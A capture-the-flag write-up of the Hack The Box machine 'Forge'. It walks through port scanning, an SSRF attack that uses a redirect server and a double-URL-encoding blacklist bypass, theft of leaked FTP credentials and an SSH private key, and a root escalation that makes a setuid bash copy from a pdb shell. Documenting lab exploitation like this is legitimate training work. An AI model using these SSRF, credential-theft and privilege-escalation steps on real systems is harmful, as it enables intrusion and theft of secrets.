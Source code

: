 > Author: **[NoobHacker9999][author-profile]**

## Discovery

### Port scanning 

```bash
PORT   STATE    SERVICE VERSION
21/tcp filtered ftp
22/tcp open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 4f:78:65:66:29:e4:87:6b:3c:cc:b4:3a:d2:57:20:ac (RSA)
|   256 79:df:3a:f1:fe:87:4a:57:b0:fd:4e:d0:54:c6:28:d9 (ECDSA)
|_  256 b0:58:11:40:6d:8c:bd:c5:72:aa:83:08:c5:51:fb:33 (ED25519)
80/tcp open     http    Apache httpd 2.4.41
|_http-title: Did not follow redirect to http://forge.htb
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: Host: 10.10.11.111; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```bash
PORT      STATE         SERVICE
137/udp   filtered      netbios-ns
21902/udp filtered      unknown
23176/udp filtered      unknown
49173/udp open|filtered unknown
```

### Enumeration

Directories:

```
/uploads              (Status: 301) [Size: 224] [--> http://forge.htb/uploads/]
/upload               (Status: 200) [Size: 929]
/static               (Status: 301) [Size: 307] [--> http://forge.htb/static/]
/server-status        (Status: 403) [Size: 274]
```

Vhost:

```
admin.forge.htb
```

### Web browsing

#### forge.htb

The webserver has a single service: uploading an image. Trying an internet
served image results in:

```
An error occured! Error : HTTPSConnectionPool(host='avatars.githubusercontent.com', port=443): Max retries exceeded with url: /u/31746234?s=280&v=4
(Caused by NewConnectionError('<urllib3.connection.HTTPSConnection object at 0x7f85c3afa490>: Failed to establish a new connection: [Errno -3] Temporary failure in name resolution'))
```

But we can serve an image on the vpn and upload it by URL:

![][successful-upload]

Since the server is making the request, it can reach beyond the filters. IE there's
potential for SSRF.

#### admin.forge.htb

The subdomain `admin.forge.htb` is not reachable:

```
Only localhost is allowed!
```

## Breaking-in the internal services

So we want the server to access the admin page and serve it back to us.

### By setting up a redirect

A service like Bitly doesn't work because the server is not connected to the
internet.

But the following script will redirect the incoming requests to the admin page:

```python
import http.server
import socketserver

class FakeRedirect(http.server.SimpleHTTPRequestHandler):
   def do_GET(self):
       self.send_response(301)
       self.send_header('Location', f'http://admin.forge.htb:80{self.path}')
       self.end_headers()

socketserver.TCPServer(("", 9999), FakeRedirect).serve_forever()
```

Then `http://1.2.3.4:9999/announcements` will be redirected to
`http://admin.forge.htb/announcements`. Since the server only filters the first
request.

### By tricking the blacklist filter

A single URL encoding doesn't fool the filter, but doing it twice:

```bash
curl -i -s -k -X $'POST' -H $'Host: forge.htb' \
    --data-binary $'url=http://%61%64%6d%69%6e%2e%66%6f%72%67%65%2e%68%74%62&remote=1' \
    $'http://forge.htb/upload'
# <strong>URL contains a blacklisted address!</strong>
curl -i -s -k -X $'POST' -H $'Host: forge.htb' \
    --data-binary $'url=http://%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65%25%32%65%25%36%36%25%36%66%25%37%32%25%36%37%25%36%35%25%32%65%25%36%38%25%37%34%25%36%32&remote=1' \
    $'http://forge.htb/upload'
# <h1>
#     <center>
#         <strong>File uploaded successfully to the following url:</strong>
#     </center>
# </h1>
# <h1>        
#     <center>
#         <strong><a href="http://forge.htb/uploads/7bwTmsOJJ9vFDVSJAaxW">http://forge.htb/uploads/7bwTmsOJJ9vFDVSJAaxW</strong>
#     </center>
# </h1>
```

### Accessing the internal content

#### Credential leaks

And following the link in the response gives:

```html
<!DOCTYPE html>
<html>
<head>
    <title>Admin Portal</title>
</head>
<body>
    <link rel="stylesheet" type="text/css" href="/static/css/main.css">
    <header>
            <nav>
                <h1 class=""><a href="/">Portal home</a></h1>
                <h1 class="align-right margin-right"><a href="/announcements">Announcements</a></h1>
                <h1 class="align-right"><a href="/upload">Upload image</a></h1>
            </nav>
    </header>
    <br><br><br><br>
    <br><br><br><br>
    <center><h1>Welcome Admins!</h1></center>
</body>
</html>
```

Doing the same for `admin.forge.htb/annoucements/`:

```html
<ul>
    <li>An internal ftp server has been setup with credentials as user:heightofsecurity123!</li>
    <li>The /upload endpoint now supports ftp, ftps, http and https protocols for uploading from url.</li>
    <li>The /upload endpoint has been configured for easy scripting of uploads, and for uploading an image, one can simply pass a url with ?u=&lt;url&gt;.</li>
</ul>
```

#### FTP server

The FTP port is filtered from the outside, but the former trick still works with:

```
http://10.10.16.34:9999/upload?u=ftp://user:heightofsecurity123!@10.10.11.111:21/.ssh/id_rsa
```

Try uploading:

```bash
curl -T www/shell.py http://forge.htb/uploads/Rc4dfaCvZ6MlGlxw5Uq9
```

### Scripting

The process has become tedious and is slowing the exploration of the server.
Let's script it:

```bash
redirect=$(curl -i -s -k -X $'POST' -H $'Content-Type: application/x-www-form-urlencoded' \
    --data-urlencode "url=http://1.2.3.4:9999/${1}" \
    --data-urlencode "remote=1" \
    $'http://forge.htb/upload' |
    perl -ne 'm#(http://forge.htb/uploads/[a-zA-Z0-9]+)#g && print $1')

curl $redirect
```

Then start the redirection script / server and accessing the FTP becomes easy:

```bash
./tunnel.sh $'upload?u=ftp://user:heightofsecurity123!@10.10.11.111:21/'
```

With this, we can browse & enumerate `admin.forge.htb`: the shared folder is
the home directory of `user` and the SSH key is accessible!

```bash
./tunnel.sh $'upload?u=ftp://user:heightofsecurity123!@10.10.11.111:21/.ssh/id_rsa' > user.id_rsa 
```

## Escalation

```bash
sudo -l
# (ALL : ALL) NOPASSWD: /usr/bin/python3 /opt/remote-manage.py
```

Here's a choice cut of `/opt/remote-manage.py`:

```python
except Exception as e:
    print(e)
    pdb.post_mortem(e.__traceback__)
```

The pdb shell runs as root! It can be triggered by sending an invalid option (a character) to
the listening socket:

```python
option = int(clientsock.recv(1024).strip())
```

And from the pdb shell setuid a binary:

```python
import stat, os, shutil
chutil.copyfile("/usr/bin/bash", "/home/user/b")
os.chmod("/home/user/b", stat.S_ISUID |  stat.S_IXUSR | stat.S_IXGRP | stat.S_IXOTH)
```

And run it.

[author-profile]: https://app.hackthebox.eu/users/393721
[blacklist]: images/blacklist.png
[successful-upload]: images/successful-upload.png
